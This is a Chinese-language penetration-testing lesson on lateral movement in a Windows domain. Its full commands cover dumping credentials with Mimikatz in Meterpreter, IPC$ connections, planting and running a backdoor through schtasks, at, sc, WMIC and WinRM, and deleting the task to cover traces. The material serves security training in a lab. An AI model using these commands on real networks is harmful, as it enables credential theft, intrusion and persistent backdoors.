






# 第48课：利用Windows内置工具进行横向移动 🚀

在本节课中，我们将学习如何利用Windows操作系统内置的工具，在已经获取一台主机权限的基础上，向网络内的其他主机进行横向移动。我们将重点介绍IPC$共享连接、计划任务、SC命令、WMIC以及WinRM等工具的使用方法。

## 概述


横向移动是渗透测试和内网渗透中的关键环节。当我们成功控制一台主机（跳板机）后，下一步就是利用这台主机作为跳板，去访问和控制同一网络内的其他主机。Windows系统自带了许多强大的管理工具，可以用于实现这一目的，而无需借助外部软件。


上一节我们介绍了信息收集和权限提升，本节中我们来看看如何利用已获取的凭证进行横向移动。


## 1. 信息收集与凭证获取 🔍


在开始横向移动之前，我们需要从已控制的主机上收集信息，特别是获取可用于登录其他主机的凭证。

我们已经通过Meterpreter会话获取了`SYSTEM`权限。接下来可以进行信息收集。


以下是获取当前主机明文密码的几种方法，使用Mimikatz模块：


```
meterpreter > load kiwi
meterpreter > creds_all
```


执行`creds_all`命令后，可能会返回类似以下的信息，其中包含域用户`Administrator`的明文密码：
```
Domain: DE1
User: Administrator
Password: Password123!
```


我们还可以尝试其他命令来获取哈希或明文：
```
meterpreter > lsa_dump_sam
meterpreter > lsa_dump_secrets
```


通过以上方法，我们得到了域`DE1`的管理员账号`Administrator`及其密码。由于域管理员账号可以登录域内的任何主机，因此这些凭证对我们进行横向移动至关重要。





## 2. 探测内网存活主机 📡


在尝试连接其他主机前，我们需要知道目标网络中有哪些主机是存活的。




我们可以从已获取的Meterpreter会话中，使用shell命令进行内网主机存活探测：
```
meterpreter > shell
C:\> for /L %i in (1,1,254) do @ping -n 1 -w 50 10.10.10.%i | findstr "TTL"
```


假设探测发现IP地址为`10.10.10.201`的主机存活，并且它开放了`445`端口（文件共享服务）和`135`端口（RPC服务），这满足了IPC$连接的基本条件。


## 3. 利用IPC$进行横向移动 🔗


IPC$（进程间通信）共享是Windows用于管理远程计算机的隐藏共享。建立IPC$连接后，可以进行文件操作、命令执行等。




### 建立IPC$连接


首先，检查并清理可能存在的旧连接，然后使用获取的域管理员凭证建立新连接：
```
C:\> net use \\10.10.10.201\IPC$ /delete
C:\> net use \\10.10.10.201\IPC$ Password123! /user:DE1\Administrator
```
命令成功执行，表示连接已建立。


### IPC$连接的应用


建立连接后，我们可以进行多种操作：


**访问远程文件系统：**
```
C:\> dir \\10.10.10.201\C$
```




**上传文件到远程主机：**
```
C:\> copy C:\test.exe \\10.10.10.201\C$\test.exe
```




**从远程主机下载文件：**
```
C:\> copy \\10.10.10.201\C$\important.txt C:\local_copy.txt
```


**查看远程主机时间（为计划任务做准备）：**
```
C:\> net time \\10.10.10.201
```


## 4. 利用计划任务执行命令 ⏰


计划任务（`schtasks` 或 `at`）允许我们在远程主机上定时执行命令或程序，从而获取反向Shell。


### 使用 schtasks 命令

首先，将后门程序通过IPC$连接上传到目标主机。然后，创建计划任务立即执行它：
```
C:\> schtasks /create /s 10.10.10.201 /u DE1\Administrator /p Password123! /sc minute /mo 1 /tn "BackdoorTask" /tr "C:\test.exe" /ru SYSTEM
```
*   `/s`: 指定远程主机。
*   `/u` 和 `/p`: 提供用户名和密码。
*   `/sc minute /mo 1`: 设置为每分钟执行一次。
*   `/tn`: 任务名称。
*   `/tr`: 要执行的程序路径。


任务创建后，等待其执行，即可在攻击机（如Metasploit）上收到来自`10.10.10.201`的反向Shell连接。


**清理痕迹：**
```
C:\> schtasks /delete /s 10.10.10.201 /u DE1\Administrator /p Password123! /tn "BackdoorTask"
```


### 使用 at 命令（旧系统）


在Windows Server 2008或Win7等系统上，也可以使用`at`命令：
```
C:\> net time \\10.10.10.201
C:\> at \\10.10.10.201 21:10 C:\test.exe
```
此命令会在远程主机的`21:10`执行`C:\test.exe`。


## 5. 利用SC命令管理服务 ⚙️


SC命令可以远程创建、启动、停止服务。我们可以创建一个服务来执行我们的后门程序。


**在远程主机上创建服务：**
```
C:\> sc \\10.10.10.201 create BackdoorService binpath= "cmd /c C:\test.exe" start= auto
```

**启动远程服务：**
```
C:\> sc \\10.10.10.201 start BackdoorService
```
服务启动后，会执行`binpath`指定的命令，从而触发我们的后门。


**查询服务状态：**
```
C:\> sc \\10.10.10.201 qc BackdoorService
```


## 6. 利用WMIC执行命令 💻

WMIC（Windows管理工具命令行）支持远程执行命令。但默认无回显，通常用于创建进程。


**在远程主机上创建进程（例如启动计算器）：**
```
C:\> wmic /node:10.10.10.201 /user:DE1\Administrator /password:Password123! process call create "calc.exe"
```
此命令会返回创建的进程ID。


**结合反弹Shell命令：**
我们可以将`calc.exe`替换为任何能在目标机器上执行的命令，例如一个通过`certutil`或`powershell`下载并执行Payload的命令，从而直接获取反向Shell。


## 7. 利用WinRM执行命令 🌐


WinRM（Windows远程管理）是Windows的远程管理服务，默认在2012及以上版本开启，允许远程执行PowerShell命令。


**首先，在目标主机上启用WinRM（如果需要）：**
```
C:\> winrm quickconfig
C:\> winrm set winrm/config/client @{TrustedHosts="*"}
```


**使用WinRS执行命令（有回显）：**
```
C:\> winrs -r:http://10.10.10.201:5985 -u:DE1\Administrator -p:Password123! ipconfig
```
此命令会远程执行`ipconfig`并返回结果。

**使用WinRM的Invoke-WmiMethod创建进程（无回显）：**
```
C:\> powershell -Command "$cred = Get-Credential; Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList 'calc.exe' -ComputerName 10.10.10.201 -Credential $cred"
```
同样，可以将`calc.exe`替换为反弹Shell的命令。





**使用WinRM创建并启动服务：**
通过PowerShell，可以远程调用WMI创建和启动服务来执行后门，原理与SC命令类似。


## 总结


本节课我们一起学习了利用Windows内置工具进行横向移动的多种方法：
1.  **IPC$共享连接**：用于建立远程管理通道，进行文件传输和基础信息获取。
2.  **计划任务（schtasks/at）**：用于在远程主机上定时执行我们的Payload。
3.  **SC命令**：用于远程创建和启动服务，以系统权限执行命令。
4.  **WMIC**：用于在远程主机上创建进程（无回显）。
5.  **WinRM**：强大的远程管理协议，可以执行命令（有回显）和管理远程服务。


这些方法的核心思路都是：**利用从已控主机获取的高权限凭证，通过Windows自带的管理功能，在远程主机上执行代码**。掌握这些技术对于理解内网渗透的横向移动至关重要。请大家务必在实验环境中亲手操作一遍，以加深理解。